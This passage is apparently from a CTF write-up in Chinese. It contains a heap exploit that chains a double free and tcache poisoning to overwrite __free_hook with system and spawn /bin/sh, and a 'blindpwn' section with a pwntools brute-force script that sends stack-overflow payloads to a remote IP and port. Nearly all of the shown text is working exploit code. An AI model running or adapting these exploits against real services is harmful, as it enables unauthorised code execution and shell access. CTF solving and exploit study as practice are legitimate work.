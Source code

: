 ```
free(11)
# double free
free(12)
free(13)
#pause()
free(12)

for i in range(7):
	create(0x68,"1"*0x68,"AAA") # 14-20  add 7 tcache chunk

pause()
create(0x68,p64(free_hook),"AAA") #21
create(0x68,"3"*0x60,"AAA") #22
create(0x68,"/bin/sh\x00","AAA") #23
create(0x68,p64(system),"AAA") #24
free(23)

p.interactive()
```


### blindpwn 
这是一道没有给程序的盲pwn，主要思路就是通过爆破低位来找到返回值特殊的值，比如打印两次提示，打印栈上内容等来找到调用read的地方，找到返回值，找到初始地址。下面给出爆破程序：

```
#!/usr/bin/env python
# coding=utf-8

from pwn import *
#context.log_level = "debug"
i = 0x11
"""
07 : \x0a  \x0f  \x14  \x76  \x20  \x07  \x40  \x70  \x05  \x40
05 : \x15  \x1c   \x1e  \xf   \x20  \x21  \x26  
"""
while i < 256:
	while True:
		try:
			p = remote("34.92.37.22",10000)
			break
		except:
			continue
	p.recv()
 	payload = "a"*40+p64(0x400520)+p64(0x400776)*i
	p.send(payload)
	print chr(i).encode("hex")
	try:
		sleep(1)
		data = p.recv()
		if len(data)>0x1b:
			i = i + 1 
			print len(data)
			print data
			p.close()
			continue
		else:
			i = i + 1
			p.close()
			continue
	except:
		i = i + 1
		p.close()
		continue
print i
```